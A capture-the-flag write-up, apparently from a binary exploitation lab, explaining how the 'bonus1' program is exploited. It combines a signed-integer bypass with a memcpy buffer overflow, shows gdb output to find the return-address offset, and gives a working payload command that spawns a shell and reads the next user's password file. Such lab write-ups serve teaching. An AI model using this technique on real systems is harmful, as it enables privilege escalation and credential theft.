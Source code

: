 # bonus1

This one is shorter. Indeed, there's just the `main` function.  

There is a `buffer[40]` and an int `nb` declared. We pass our argv[1] to `atoi`, and give the return to `nb`. 
Then, it checks if `nb` is less than 10. If it is, there is a call to `memcpy` which copies `nb * 4` bytes of argv[2] in our buffer.  
And if our `nb` is equal to 1464814662, it `execl` a bash.  
But how can we do that? Indeed, 1464814662 is not less than 10!

But, we notice that we can use `memcpy` in order to overflow our buffer and write what we want! And what do we want?  
We want to replace the adress of $eip by this address : `0x08048482`, where the parameters for the call to `execl` are prepared. 

How we can proceed step by step :

Need to know where to write. For that, we need to find the difference between the address of $eip and the beginning of our buffer.

  - Address of $eip :
```
(gdb) r -1 lollll
Starting program: /home/user/bonus1/bonus1 -1 lollll
Breakpoint 1, 0x08048427 in main ()
(gdb) x/4x $ebp 
0xbffff728:	0x00000000	0xb7e454d3	0x00000003	0xbffff7c4
                                ^^^^^^^^^^
x/x $ebp+4
0xbffff72c:	0xb7e454d3
^^^^^^^^^^

```
  - Buffer address : 
```
  [...]
    0x08048464 <+64>:	lea    0x14(%esp),%eax
->  0x08048468 <+68>:	mov    %ecx,0x8(%esp)
  [...]

Breakpoint 2, 0x08048468 in main ()
(gdb) x/x $eax
0xbffff6f4:	0x00000016
^^^^^^^^^^
```
  - Difference :
```
(gdb) p 0xbffff72c-0xbffff6f4
$3 = 56
```

Then, we need to find a negative number that, when multiplied by 4 is close to 60 (56 + 4 address bytes) in order to overflow. For that, we just need to do `INT_min + 60 / 4 = -2147483633` (we wrote a script to find that out).

So we have all stuff we need to write our command : 
```bash 
./bonus1 -2147483633 $(python -c 'print "A" * 56 + "\x08\x04\x84\x82"[::-1]')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
```
